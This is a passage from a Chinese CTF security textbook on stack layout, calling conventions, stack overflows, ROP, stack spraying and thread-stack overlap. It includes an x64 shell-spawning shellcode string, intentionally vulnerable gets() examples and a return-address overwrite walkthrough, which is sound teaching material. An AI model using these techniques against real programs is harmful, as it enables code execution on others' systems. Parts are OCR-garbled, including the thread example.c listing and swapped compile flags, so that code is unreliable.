

???+ abstract "本章摘要"
    本章系统讲解程序栈的结构与调用机制（函数栈、调用协议、x86/x64/arm 传参规则），引出栈溢出的成因与五类利用方向（NX/canary、覆盖返回地址、覆盖局部变量、覆盖 bp、敏感函数），重点展开覆盖返回地址劫持控制流与 rop 的构造原理，并介绍栈喷射、线程栈等特殊技巧，最后以 ZCTF guess/spell、Codegate Chess、RCTF Welpwn 四道真题完整演示 libc 泄露、栈转移、栈喷射等实战利用链。
## 章节导航

上一篇：第11章 格式化字符串漏洞
下一篇：第13章 堆漏洞利用
回到目录：[00-目录](00-目录.md)

## 第12章 栈相关漏洞

### 12.1 栈介绍

程序栈主要用于存储程序运行过程中的局部信息，大小不固定，是动态增长的。栈内存一般可以根据函数栈来进行划分（不使用函数的程序比较少见），不同的函数栈之间是相互隔离的，从而能够实现有效的函数切换。函数栈上存储的信息一般包括：临时变量（包括栈保护哨canary）、函数的返回栈基址（bp）、函数的返回地址（ip）。程序栈的示意如图12-1所示。

{ width="100%" }

<div style="text-align: center;">图12-1 程序栈的示意图</div>

???+ note "定义：函数栈"
    ==函数栈是程序栈中按函数划分、相互隔离的一段区域，由栈顶指针（sp）和栈底指针（bp）界定边界，其上存储临时变量（含 canary）、返回栈基址（bp）和返回地址（ip）等状态信息。
#### 12.1.1 函数栈的调用机制

程序运行时，为了实现函数之间的相互隔离，需要在进入新函数之前保存当前函数的状态，而这些状态信息全在栈上。为了实现状态的隔离，由此引出了函数栈的概念，当前函数栈的边界就是栈顶指针（sp）和栈底指针（bp）所指的区域。sp主要指esp（x86）和rsp（x64），bp主要指ebp（x86）和rbp（x64）。

在函数调用（即进入子函数时）时，首先将参数入栈，然后深入返回地址和栈底指针寄存器bp（也有不压bp的情况），其中压入返回地址是通过call实现的。

在函数结束时，将sp重新指向bp的位置，并弹出bp（与前面是否压入bp保持一致）和返回地址ip，通常，弹出bp是通过leave或者pop bp（pop rbp或者pop ebp）来实现的。

x86示例如图12-2所示。

```asm
.text:080483B4 public test_func
.text:080483B4 test_func proc near ; CODE XREF: main+6↓p
.text:080483B4 push ebp
.text:080483B5 mov ebp, esp
.text:080483B7 sub esp, 18h
.text:080483BA mov dword ptr [esp], offset s ; "hello world"
.text:080483C1 call _puts
.text:080483C6 leave
.text:080483C7 retn
.text:080483C7 test_func endp
```

<div style="text-align: center;">图12-2 x86程序参数传递实例</div>

x64示例如图12-3所示。

{ width="100%" }

<div style="text-align: center;">图12-3 x64程序参数传递实例</div>

修改bp寄存器，然后执行ret，函数状态将恢复成进入子函数时的状态，实现了函数栈的切换。

函数栈示意如图12-4所示。

{ width="100%" }

<div style="text-align: center;">图12-4 函数栈示意图</div>

在函数栈中，bp中存储了上个函数栈的基址，而ip存储的是调用处的下一条指令位置。返回当前函数时，会从栈上弹出这两个值，从而恢复上一个函数的信息。

???+ tip "本节要点"
    1. 函数栈靠 sp、bp 界定边界，进入子函数前先保存状态（参数、返回地址、bp）；
    2. 压入返回地址由 `call` 完成，恢复 bp 由 `leave`/`pop bp` 完成，`ret` 弹出返回地址 ip；
    3. `leave` 等价于 `mov sp,bp; pop bp`，之后再 `ret` 弹出 ip；
    4. bp 存上个函数栈的基址，ip 存调用处下一条指令位置，二者在函数返回时从栈上弹出。
#### 12.1.2 函数参数传递

由于函数的传参规则受函数调用协议的影响，因此本节首先简单介绍一下函数调用协议。

__stdcall、__cdecl和__fastcall是三种函数调用协议，函数调用协议会影响函数参数的入栈方式、栈平衡的修复方式、编译器函数名的修饰规则等。

调用协议的常用场合如下。

• _stdcall: Windows API默认的函数调用协议。

 $ \cdot $ __cdecl: C/C++默认的函数调用协议。

• fastcall：适用于对性能要求较高的场合。

函数参数的入栈方式包含如下几种。

_stdcall：函数参数由右向左入栈。

- __cdecl：函数参数由右向左入栈。

• fastcall：从左开始将不大于4字节的参数放入CPU的ecx和edx寄存器，其余参数从右向左入栈。

栈平衡的修复方式包含以下几种。

__stdcall：函数调用结束后由被调用函数来平衡栈。

- __cdecl：函数调用结束后由函数调用者来平衡栈。

• fastcall：函数调用结束后由被调用函数来平衡栈。

对于Linux程序来说，通常采用__cdecl的调用方式，所以这里主要介绍这种调用方式下的函数传参规则。

## 对于x86程序

- 普通函数传参：参数基本都压在栈上（有寄存器传参的情况，可查阅相关资料）。

- syscall 传参：eax 对应系统调用号，ebx、ecx、edx、esi、edi、ebp 分别对应前六个参数。多余的参数压在栈上。

## 对于x64程序

- 普通函数传参：先使用rdi、rsi、rdx、rcx、r8、r9寄存器作为函数参数的前六个参数，多余的参数会依次压在栈上。

- syscall 传参：rax 对应系统调用号，传参规则与普通函数传参一致。

对于arm程序：R0、R1、R2、R3，依次对应前四个参数，多余的参数会依次压在栈上。

__stdcall和__fastcall这两种调用方式的传参规则可参考上文中的函数参数入栈方式，更多信息可以查阅相关资料进行扩展。

其中普通函数传参示例如下。

测试代码如下：

```c
#include <stdio.h>
void test_func(int arg0, int arg1, int arg2, int arg3, int arg4, int arg5, int arg6, int arg7)
{
    printf("%d, %d, %d, %d, %d, %d, %d, %d\n", arg0, arg1, arg2, arg3, arg4, arg5, arg6, arg7);
}
int main()
{
    test_func(0, 1, 2, 3, 4, 5, 6, 7);
}
```

x86反汇编代码如图12-5所示。

{ width="100%" }

<div style="text-align: center;">图12-5 x86程序参数传递示意图</div>

x64反汇编代码如图12-6所示。

{ width="100%" }

<div style="text-align: center;">图12-6 x64程序参数传递示意图</div>

???+ tip "本节要点"
    1. 三种调用协议的区别在入栈方式、栈平衡方、函数名修饰，Linux 主要用 __cdecl（由调用者平衡栈）；
    2. x86 普通函数参数基本压栈，syscall 用 eax 传调用号、ebx~ebp 传前六参；
    3. x64 普通函数先占 rdi、rsi、rdx、rcx、r8、r9 六个寄存器，多余参数压栈；
    4. arm 用 R0~R3 传前四参，多余参数压栈。
    5. ==fastcall 是不大于 4 字节的参数入 ecx、edx 两个寄存器==，其余仍从右向左入栈。
### 12.2 栈溢出

#### 12.2.1 基本概念

栈溢出是指栈上的缓冲区被填入了过多的数据，超出了边界，从而导致栈上原有的数据被覆盖。栈溢出是缓冲区溢出的一种类型，示意如图12-7所示。

{ width="100%" }

<div style="text-align: center;">图12-7 缓冲区溢出示意图</div>

???+ note "定义：栈溢出"
    ==栈溢出是指向栈上缓冲区填入过多数据、超出边界，从而覆盖栈上原有数据的漏洞，是缓冲区溢出的一种类型。
从前面的函数栈示意图（图12-4）可以看出，里面比较重要的数据主要可分为三部分，即局部变量、bp和ip，这几部分存储的数据都很关键，主要作用如下。

- 局部变量：局部变量在函数中的作用很大，如构造危险输入、影响条件分支的转移等，这些都能起到改变控制流或者方便构造更强大的漏洞的作用。

- bp：函数栈栈底指针，能够直接影响返回函数的栈，如果恢复bp的代码是“leave”或者后续代码存在“mov sp,bp”，则会间接影响控制流；同时，有些参数以及临时变量在代码中很有可能是根据bp来索引的（具体见汇编代码），因此也能影响局部变量或者参数的使用，从而影响控制流。

- ip：程序返回地址，能够直接影响控制流，如ip指向危险函数、直接调用rop等。

???+ tip "本节要点"
    1. 栈溢出 = 缓冲区写入数据超界，覆盖栈上原有数据；
    2. 栈上三块关键数据：局部变量、bp、ip，各自都可被利用来影响控制流；
    3. 局部变量可构造危险输入或影响条件分支，bp 能间接改控制流，ip 能直接改控制流。
#### 12.2.2 覆盖栈缓冲区的具体用途

根据前面所述的函数栈所存储的信息，栈上能够控制的信息很多，可操作的空间是很大的，具体需要根据能覆盖的情况进行分析。下面主要针对栈缓冲区覆盖的几个方面进行详细介绍。

1）数据不可执行（NX/DEP）及栈保护哨（canary）相关说明。

2）覆盖当前栈中函数的返回地址（当前函数或者之前的函数），获取控制流。

3）覆盖栈中所存储的临时变量（当前函数或者之前的函数）。

4）覆盖栈底寄存器bp（之前的函数）。

5）关注敏感函数。

对上述5个方面的具体介绍如下。

1）数据不可执行（NX/DEP），主要是防止直接在缓冲区（堆、栈、数据段）存放可执行的代码（如shellcode等），增加漏洞的利用难度。一般情况下，拿到程序之后，首先会检查程序的保护机制开启情况，尤其需要关注是否开启NX，检查命令为“checksec./proc”，NX检测示意如图12-8所示。

NX开启和关闭的情况分别如图12-8a和图12-8b所示。

{ width="100%" }

<div style="text-align: center;">b) 关闭</div>

<div style="text-align: center;">图12-8 NX检测示意图</div>

关闭NX的编译选项为“-z execstack”，默认是开启的。

示例代码如下：

```c
#include <stdio.h>
char shellcode[] =
    "x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\
xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
int main()
{
    char stack_buff[0x40];
    char *heap_buff =malloc(0x40);
    memcpy(stack_buff, shellcode, sizeof(shellcode));
    memcpy(heap_buff, shellcode, sizeof(shellcode));
    //((void (*)(void))shellcode());
    ((void (*)(void))stack_buff());
    //((void (*)(void))heap_buff());
}
```

编译命令分别如下。

- 开启NX：gcc-o proc_nx proc.c；proc_nx程序执行后直接异常报错退出。

- 关闭NX：gcc-o proc proc.c-z execstack；proc程序执行后直接获取shell。

下面用 $ gdb $调试，分别查看内存状态。

proc_nx的内存状态如图12-9所示。

{ width="100%" }

<div style="text-align: center;">图12-9 开启NX的程序内存布局</div>

proc的内存状态如图12-10所示。

{ width="100%" }

<div style="text-align: center;">图12-10 关闭NX的程序内存布局</div>

可以看到，关闭了NX之后，很多新加载的内存段都默认变成了可执行段，尤其是栈、数据段、堆等部分。

栈保护哨（canary）主要是存放在函数栈靠近底部位置的一个临时变量中，防止栈缓冲区覆盖存放在栈底的栈底寄存器（bp）和返回地址（ip），如图12-11所示。

{ width="100%" }

<div style="text-align: center;">图12-11 canary示意图</div>

???+ note "定义：canary"
    ==canary（栈保护哨）是存放在函数栈靠近底部的一个临时变量，函数进入前赋值、返回前校验，用于防止栈缓冲区覆盖到底部的 bp 和 ip。
canary是程序在每次进入函数前会被赋予的值，在函数返回前检查该值是否发生了改变，若检测出改变则报异常并退出。这样即便发生了栈缓冲区溢出，由于canary的存在，也很难覆盖bp和ip，从而可防止直接利用这两个值进行控制流劫持（如rop），减轻了对栈缓冲区的危害。虽然canary在程序中每次运行时都是随机的，但是就程序的一次运行来说，大部分情况下，不同函数中的canary值是固定的（是否一样可根据汇编代码来查看，若非特殊处理，通常是一样的），所以只要能够泄露出canary，就可以绕过canary保护机制。

关闭canary保护的编译选项为“-fno-stack-protector”，canary保护功能默认是开启的。

示例代码如下：

```c
#include <stdio.h>
int main()
{
    char stack_buff[0x10];
    gets(stack_buff);
    printf("%s\n", stack_buff);
}
```

编译命令分别如下。

关闭canary:

```text
gcc -o proc_canary sample_canary.c
```

开启canary:

```text
gcc -o proc sample.c -fno-stack-protector
```

proc_canary的反汇编结果如图12-12所示。

{ width="100%" }

<div style="text-align: center;">图12-12 带有canary的程序反汇编实例</div>

proc的反汇编结果如图12-13所示。

{ width="100%" }

<div style="text-align: center;">图12-13 不带canary的程序反汇编实例</div>

[OCR存疑：本节「关闭canary/开启canary」两条编译命令在原书中疑被写反（关闭应带 -fno-stack-protector，开启应为默认不加该选项），已照原文逐字保留。]

2）函数栈底部存放的返回地址是返回到父函数调用处的下一个位置，如果栈缓冲区覆盖了该返回地址，那么函数结束后，将会跳转到所修改的地址上去，从而劫持控制流，示意如图12-14所示。

{ width="100%" }

<div style="text-align: center;">图12-14 劫持栈的控制流</div>

测试样例代码如下：

```c
#include <stdio.h>
void target_func()
{
    printf("Hacked\n");
    exit(0);
}
int main()
{
    char buff[0x10];
    gets(buff);
}
```

编译命令：

```text
gcc -o overwrite_ret overwrite_ret.c -fno-stack-protector
```

反汇编代码如图12-15所示。

{ width="100%" }

<div style="text-align: center;">图12-15 测试样例的反汇编代码</div>

可以看到，target_func的地址为0x4005C6，栈buff的大小是0x10的大小，运行到gets函数调用处，内存状态如图12-16所示。

{ width="100%" }

<div style="text-align: center;">图12-16 调试时的内存状态</div>

输入命令ni单步跳过，然后输入

AAAAAAAABBBBBBBCCCCCCCCDDDDDDDDD，其中AAAAAAAABBBBBBBB占据了buff的空间，CCCCCCCCDDDDDDDDD则用于填充rbp和rip的位置，内存状态如图12-17所示。

{ width="100%" }

<div style="text-align: center;">图12-17 执行到leave指令时的内存状态</div>

单步执行si，运行到ret指令，可以看到返回地址为DDDDDDDD，即0x4444

{ width="100%" }

<div style="text-align: center;">图12-18 执行到ret指令时的内存状态</div>

将输入中的DDDDDDDD用target_func的地址0x4005C6来替代，就能执行到target_func，如图12-19所示。

{ width="100%" }

<div style="text-align: center;">图12-19 劫持成功的程序输出</div>

??? note "覆盖返回地址的原理"
    `call func` 等价于 `push ret_addr; jmp func`，返回地址压栈后 `ret` 会返回到 sp 所指向的地址并弹出它、调整 sp。因此把缓冲区尾部正好覆盖到保存返回地址的位置，就能让函数返回到任意指定地址（如 target_func），即劫持控制流。
由于能够劫持控制流，在这种情况下，较为复杂的情况就是编写rop代码。可以根据前面函数栈的调用方式来理解rop代码。

对于x86程序来说，参数传递是通过栈来实现的，在调用完以后，需要清除栈中的参数，所以一般函数调用完之后需要用形如“pop*；pop*；……;ret；”的gadget来调整栈。因为函数调用时返回地址会压入栈中，即汇编中的“call func”指令等同于“push ret_addr;jmp func”，所以执行jmp func的时候，ret_addr已经压到栈里面去了，进入函数时栈的状态如图12-20所示。

通过ret指令将返回到sp所指向的地址，弹出该地址，并调整sp，因此如果当前指令是ret，那么此时的栈状态应如图12-21所示。

{ width="100%" }

<div style="text-align: center;">图12-20 函数调用时的栈布局</div>

{ width="100%" }

<div style="text-align: center;">图12-21 执行到ret指令时的栈布局</div>

这也是rop的构造原理。将ret_addr改成“pop*;ret”指令的

gadget，用来弹出后续的args，即成为rop的形式，如图12-22所示。

{ width="100%" }

<div style="text-align: center;">图12-22 rop构造形式</div>

???+ note "定义：rop"
    ==rop（Return-Oriented Programming，面向返回编程）是把控制流劫持到一连串以 ret 结尾的指令片段（gadget）上，通过不断「返回」串联起功能的一种利用技术，需要栈上提前布置好 gadget 与被弹出参数。
对于x64程序来说，一般情况下，函数的参数较少，通常主要是利用寄存器来传递参数的，所以在进入函数之前，应先将寄存器设置好，对于其rop的理解也比较容易，如图12-23所示。

{ width="100%" }

<div style="text-align: center;">图12-23 rop gadget示意图</div>

3）覆盖栈中所存储的临时变量的情况比较简单且常见，主要是被覆盖的临时变量很有可能在后续的代码中起到很大的作用。

示例代码如下：

```c
#include <stdio.h>
int main()
{
    int info;
    char buff[0x1c];
    info = 0;
}
```

```c
//
```

编译命令：

```text
gcc -o overwrite_var overwrite_var.c -fno-stack-protector
```

通过打印的地址可以知道，buff与info的地址相差0x1c，因此输入0x1d个字符就能够覆盖到info的值，从而改变info，并影响控制流，执行结果如图12-24所示。

{ width="100%" }

<div style="text-align: center;">图12-24 rop执行结果</div>

更多示例请参见真题解析。

4）覆盖栈底寄存器bp，使得与bp相关的信息发生改变。这主要是针对汇编代码，栈底寄存器bp的主要作用是确定函数栈的栈底是否发生改变，一旦发生改变，函数中所引用的信息都会发生变化。栈底寄存器bp的主要用途包含如下几个方面。

a）覆盖bp，实现栈转移。

这种情况一般主要是针对“leave;ret”指令；该指令等价于“mov sp,bp;pop bp;ret”，可以看到，指令执行完毕，栈顶指针被设置为bp所指向的值。改变bp的值，能起到很多作用，如执行rop、扩展栈空间等，具体需要根据实际情况来看。如执行rop的情况，若后续遇到“leave;ret”指令，就会跳转到目的栈上去，如果该栈上布置了rop，就能达到目的，如图12-25所示。

{ width="100%" }

<div style="text-align: center;">图12-25 栈上rop示意图</div>

更多示例请参见真题解析。

b）覆盖bp，实现参数索引改变。

一般来说，很多临时变量的索引，都是根据相对于bp的偏移来进行的，这一点需要根据汇编指令来进行查看，如图12-26所示。

传进gets的变量，就是根据rbp的偏移来计算的，因此如果rbp发生了变换，那么后续的很多参数也会发生改变，尤其是输入参数之类，若作为条件判断或者危险函数的传值等，就可能实现更强大的功能。

{ width="100%" }

<div style="text-align: center;">图12-26 rbp参数示意图</div>

更多示例请参见真题解析。

5）关注敏感函数。

通常，发生栈覆盖时，可以关注能够产生缓存区溢出的函数、循环赋值逻辑等，但此时需要留意其能够读取与覆盖的范围的大小，看是否超过申请的值，包括：

- 常见的栈覆盖危险函数形式有 gets(buff)、scanf("%s",buff) 等；

- 潜在的覆盖函数有read、strcpy、memcpy等。

其他更多函数或者逻辑需要在实际操作中慢慢总结。

???+ tip "本节要点"
    1. 栈覆盖五方面：NX/canary、覆盖返回地址、覆盖局部变量、覆盖 bp、关注敏感函数；
    2. NX 防直接执行缓冲区代码，`-z execstack` 关闭；canary 防覆盖 bp/ip，`-fno-stack-protector` 关闭；
    3. 覆盖返回地址即可劫持控制流，复杂场景引入 rop（x86 用 pop-ret 清栈，x64 先设置寄存器）；
    4. 覆盖 bp 可借 `leave;ret` 实现栈转移、用偏移索引改变参数；
    5. 危险函数：gets、scanf("%s")；潜在函数：read、strcpy、memcpy。
### 12.3 栈的特殊利用

关于栈的用法，有很多有用的技巧，下面总结几种比较常见的方式。

1）libc信息泄露。

由图12-1可以知道，main函数的栈底存放的是__libc_start_main_ret，因此一旦能够使其返回地址泄露，就可以利用libc.so文件或使用libc_database来计算libc的基址以及system地址等。

2）多级指针：path指针，多用于格式化字符串。

由于函数栈的下面存放有环境变量、argv等指针，该指针通常可以用来泄露信息，具体见12.6.1节。另外，这个地址通常用于格式化字符串的漏洞，具体可结合第14章来理解。

3）环境变量修改：环境变量指针参数会压在栈上，修改可以达到特定目的。

在进入程序主逻辑之前，环境变量已经压入了栈底，而这些环境变量可能会影响程序的行为，如LD_PRELOAD、LIBCL_FATAL_STDERR_等。

4）通过libc泄露栈地址。

栈地址通常都比较关键，很多时候都需要泄露出该地址，如果出现知道libc地址但不知道栈地址的情况，可以根据libc中的Environ偏移来计算栈的偏移。

5）往栈上写rop的小技巧。

一般来说，对于rop不好布置的情况，可以选择离当前函数栈较远的位置进行写入，然后通过返回达到rop位置。如可以在main函数的栈底布置rop，触发main函数返回的条件，就会执行到rop处。

???+ tip "本节要点"
    1. 五大技巧：libc 信息泄露、path 多级指针、环境变量修改、libc 泄露栈地址、往栈上写 rop；
    2. main 栈底有 __libc_start_main_ret，泄露它即可算 libc 基址与 system 地址；
    3. 由 libc 的 Environ 符号偏移可反推栈地址；环境变量指针会压栈，可改 LD_PRELOAD 等影响行为。
### 12.4 栈喷射

栈喷射（stack spray）主要用于实现rop时无法得到确定栈地址的情况，通过预先在栈中布置大量重复性的rop数据块，只要返回时栈顶位于其中的一个数据块处就能实现rop，如图12-27所示。

{ width="100%" }

<div style="text-align: center;">图12-27 栈喷射示意图</div>

???+ note "定义：栈喷射"
    ==栈喷射（stack spray）指无法确定栈地址时，在栈中预先布置大量重复 rop 数据块，使返回时栈顶大概率落在某一数据块上以实现 rop 的技术。
通常，这种情况是指不能确定栈地址中的某几位，一般是低位，所以可以提前将低位所对应的地址空间中的数据全部或者部分布置好。

如要用到栈地址0xFFFF5e**里面的值，则可以将0xFFFF5e00~0xFFFF5eff的地址空间中所需要的值都布置好，或者将其中一部分设置好，这样当栈地址恰好为一个值时，会有很大可能性刚好落在所布置的地址空间范围内，从而满足需求。

一般来说，产生栈喷射的条件多种多样，大多带有随机性，如栈地址的随机性、覆盖长度有限等。如栈溢出覆盖bp只能覆盖最低字节，导致程序栈转移出现随机性，这种情况就可以采用栈喷射。

另外，栈喷射的数据也有很多种情况，如控制变量、shellcode地址、rop地址、rop数据等。

在这里仅就一种情况进行说明，其他的则可以根据这个示例举一反三进行理解，具体解析请参见12.6.4节。

???+ tip "本节要点"
    1. 栈喷射解决「rop 无法确定栈地址」的问题，靠大量重复数据块碰概率；
    2. 只需覆盖地址低位时，可把该低位对应的一段地址空间都布置好；
    3. 触发条件常带随机性（栈地址随机、覆盖长度有限、只盖 bp 最低字节等）；
    4. 喷射数据可以是控制变量、shellcode/rop 地址、rop 数据等。
### 12.5 线程栈

线程栈是针对多线程程序来说的，同一进程不同线程的栈都会布置在程序栈中，但是为了保证线程函数的正确执行，线程栈之间应相互隔离，布局如图12-28所示。

{ width="100%" }

<div style="text-align: center;">图12-28 程序线程栈内存布局</div>

示例代码如下：

```c
void *thread_func_1()
{
    char buff[0x40];
    printf("thread_func_1 stack_addr:%p\n", buff);
    sleep(20);
    printf("thread_func_1\n");
}

void *thread_func_2()
{
    char buff[0x40];
    printf("thread_func_2 stack_addr:%p\n", buff);
    sleep(20);
    printf("thread_func_2\n");
}

#define THREAD_COUNT 2
int main()
{
    pthread_t thread[THREAD_COUNT];
    int i;

    pthread_create(&thread[0], NULL, (void *))
    thread_func_1, NULL);
    pthread_create(&thread[1], NULL, (void *)
    thread_func_2, NULL);

    sleep(2);
    printf("ready to bk\n");
    for (i = 0; i < THREAD_COUNT; i++)
        pthread_join(thread[i], NULL);

    return 0;
}
```

程序运行起来后，输出如图12-29所示。

{ width="100%" }

<div style="text-align: center;">图12-29 线程栈地址</div>

用gdb attack程序查看内存布局，如图12-30所示。

{ width="100%" }

<div style="text-align: center;">图12-30 线程栈内存布局实例</div>

可以看到，线程栈的大小与系统配置有关（可以通过ulimit - s查看和修改），默认为0x800000，表示线程栈之间存在着不可访问的内存保护页，以防止线程之间的相互溢出和覆盖。

然而，由于线程栈处于同一内存空间内，所以也可以发送内存覆盖的情况。

CTF赛题中针对线程栈的攻击，主要存在如下两种模式。

1）存在大范围写，能够改写其他线程栈的数据。

2）存在递归，能够耗尽线程栈空间（0x800000），并且有机会触发大空间的读写，该空间大于0x1000，可越过不可访问的保护页。

对于情况1，根据具体情况进行分析即可，一般来说，两个函数栈相距0x801000这么远，可根据调试信息改写。

对于情况2，这里通过一个示例进行讲解，代码如下：

```c
/* example.c*/
#include <stdio.h>
#include <stdlib.h>
#include <pthread.h>
#define max_thread 2

void show_info(void* addr, int size)
{
    int i;
    unsigned char *pointer = addr;
    for (i = 0; i < size; i++)
    {
        if (i % 0x10 == 0)
            printf("0x%016x ", pointer + i);
        printf("%02x", pointer[i]);
        if (i % 4 == 3)
            printf("");
        if (i % 0x10 == 15)
            printf("\n");
}

}
if ((i-1) % 0x10 != 15)
    printf("\n");
}

void big_stack_func(int level)
{
    //保护页大小为1k，0x1100就能满足需求
    char stack_buff[0x3000];
    memset(stack_buff, 2, 0x100);
    stack_buff[0xd00+0x18] = 2;
    printf("level: %d\n", level);
    show_info(stack_buff+0xd00, 0x100);
    sleep(10);
}

#define stack_size 0x130
//经调试可得，grow_stack函数所占用栈空间大小为0x130
int times = 0x801000 / stack_size - 30;
//30*stack_size = 0x23a0确保后续栈内存靠近保护页
void grow_stack(int level)
{
    char buff[0x100];
    if (level >= times)
    {
        big_stack_func(level);
        return;
    }
    //memset(buff, 0xaa, 0x1000);
    if (level % 1000 == 999)
        printf("at level:%d 0x%016x\n", level+1, buff);
    grow_stack(level+1);
}

void thread(void* params)
{
    char buff[0x100];
    int t_id = *(int*)params;
    int i;

    sprint(buff, "%d%d%d%d -- USB %d%d%d%d", t_id, t_id, t_id, t_id, t_id, t_id, t_id, t_id, t_id);
    memcpy(&i, "\xef\xbe\� xad\xde", 4);
}

if (t_id > 0)
{
    show_info(buff + 0x801000 - 0x20, 0x30);
    printf("\n");
    show_info(buff + 0x100, 0x100);
    printf("\n");
    show_info(buff + 0x100 + 0x1000 + 0x100-0x10, 0x10);
}

for (i=0; i<1; i++) {
    printf("This is the pthread[%d]: 0x%016x -> t_id: 0x%016x\n", t_id, buff, &t_id);
    sleep(3);
}

if (t_id == 1)
{
    sleep(1);
    while (t_id != 2)
        ;
    printf("over\n");
}

else
{
    sleep(2);
    grow_stack(0);
}

int main(void)
{
    pthread_t id[max_thread];
    int i, ret, params[max_thread];
    for (i = 0; i < max_thread; i++)
    {
        params[i] = i;
        printf("This is the main process id = %d -> 0x%016x\n", i, &params[i]);
        ret = pthread_create(&id[i], NULL, (void *)thread, (void *)&params[i]);
        sleep(1);
        if (ret != 0) {
            printf("Create pthread error!\\n");
            exit(1);
        }
    }
}

}

printf("This is the main process.\n");
for (i = 0; i < max_thread; i++)
{
    pthread_join(id[i], NULL);
    printf("main join %d\n", i);
}
printf("This is the main process. over\n");
return 0;
}
```

[OCR存疑：上述 example.c 代码中 `sprint(` 疑为 `sprintf(`，`memcpy(&i, "\xef\xbe\� xad\xde", 4)` 一字原样保留，`\n` 在部分 printf 中被误识别成 `\\n`，均照原文逐字保留。]

上述代码运行时有两个线程，都是同一个函数，但是由于线程函数传入的参数id不同，分别对应线程0和线程1，所以执行不同的分支。

单独观察线程1，由于局部变量 $ t_{id}==1 $，所以 $ t_{id}!=2 $永远都会成立，因此会在死循环中永远出不去。

在线程0中，有个递归函数grow_stack，会不断地抬高栈，直到接近线程0和线程1之间的保护页，如图12-31所示。

{ width="100%" }

<div style="text-align: center;">图12-31 递归函数线程栈示意图</div>

此时，如果调用一个能申请很大空间的栈，越过栈保护页，那么就会发生函数栈重叠，如图12-32所示。

在图12-32所示的示例中，big_stack_func的函数栈和线程1的thread_func函数栈发生了重叠，此时，对big_stack_func的特定局部变量内容进行改写，就能改写线程1的thread_func函数中局部变量的内容。

在本示例中，改写后线程1的t_id为2，最终跳出循环，打印over。

编译命令：

{ width="100%" }

<div style="text-align: center;">图12-32 线程函数栈覆盖</div>

结果如下：

| This is the main process id = 0 -> 0x0000000092856110\nThis is the pthread[0]: 0x000000007821be00 -> t_id:\n0x00000007821bdf8\nThis is the main process id = 1 -> 0x0000000092856114\n0x00000007821bde0 f转正fffff 00000000 10618592 ff7f0000\n0x00000007821bdf0 20692278 eb7f0000 00000000 00000000\n0x00000007821be00 30303030 202d2d20 55534220 30303030 |
| --- |
| 0x000000077a1af00 00000000 00000000 00d4d9b3 6d0c255a\n0x000000077a1af10 00000000 00000000 a5905e78 eb7f0000\n0x000000077a1af20 00000000 00000000 00b7a177 eb7f0000\n0x000000077a1af30 00b7a177 eb7f0000 ddfeaff8 019b4b8c\n0x000000077a1af40 00000000 00000000 00000000 00000000\n0x000000077a1af50 c0b9a177 eb7f0000 00b7a177 eb7f0000\n0x000000077a1af60 ddfeefa6 42749d73 ddfe75d8 bc6b9d73\n0x000000077a1af70 00000000 00000000 00000000 00000000\n0x000000077a1af80 00000000 00000000 00000000 00000000\n0x000000077a1af90 00000000 00000000 00000000 00000000\n0x000000077a1afa0 00000000 00000000 00000000 00000000\n0x000000077a1afb0 00b7a177 eb7f0000 fd6c3178 eb7f0000\n0x000000077a1afc0 00000000 00000000 00000000 00000000\n0x000000077a1afd0 00000000 00000000 00000000 00000000 00000000\n0x000000077a1afe0 00000000 00000000 00000000 00000000\n0x000000077a1aff0 00000000 00000000 00000000 00000000\n0x000000077a1bff0 00000000 00000000 00000000 00000000 00000000\nThis is the pthread[1]: 0x0000000077a1ae00 -> t_id:\n0x000000077a1adf8\nThis is the main process. at level:1000 0x00000000781d1a70 at level:2000 0x00000000781876f0 at level:3000 0x000000007813d370 at level:4000 0x00000000780f2ff0 at level:5000 0x00000000780a8c70 at level:6000 0x000000007805e8f0 at level:7000 0x0000000078014570 at level:8000 0x0000000077fca1f0 at level:9000 0x0000000077f7fe70 at level:10000 0x0000000077f35af0 at level:11000 0x0000000077eeb770 at level:12000 0x0000000077ea13f0 at level:13000 0x0000000077e57070 at level:14000 0x0000000077e0ccf0 at level:15000 0x0000000077dc2970 at level:16000 0x0000000077d785f0 |

at level:17000 0x0000000077d2e270
at level:18000 0x0000000077ce3ef0
at level:19000 0x0000000077c99b70
at level:20000 0x0000000077c4f7f0
at level:21000 0x0000000077c05470
at level:22000 0x0000000077bbb0f0
at level:23000 0x0000000077b70d70
at level:24000 0x0000000077b269f0
at level:25000 0x0000000077adc670
at level:26000 0x0000000077a922f0
at level:27000 0x0000000077a47f70
level:27577
0x0000000077a1ade0 00000000 00000000 14618592 ff7f0000
0x0000000077a1adf0 00000000 00000000 02000000 01000000
0x0000000077a1ae00 31313131 202d2d20 55534220 31313131
0x0000000077a1ae10 00000000 00000000 00000000 00000000
0x0000000077a1ae20 00000000 00000000 00000000 00000000
0x0000000077a1ae30 00000000 00000000 00000000 00000000
0x0000000077a1ae40 00000000 00000000 00000000 00000000
0x0000000077a1ae50 00000000 00000000 00000000 00000000
0x0000000077a1ae60 00000000 00000000 00000000 00000000
0x0000000077a1ae70 00000000 00000000 00000000 00000000
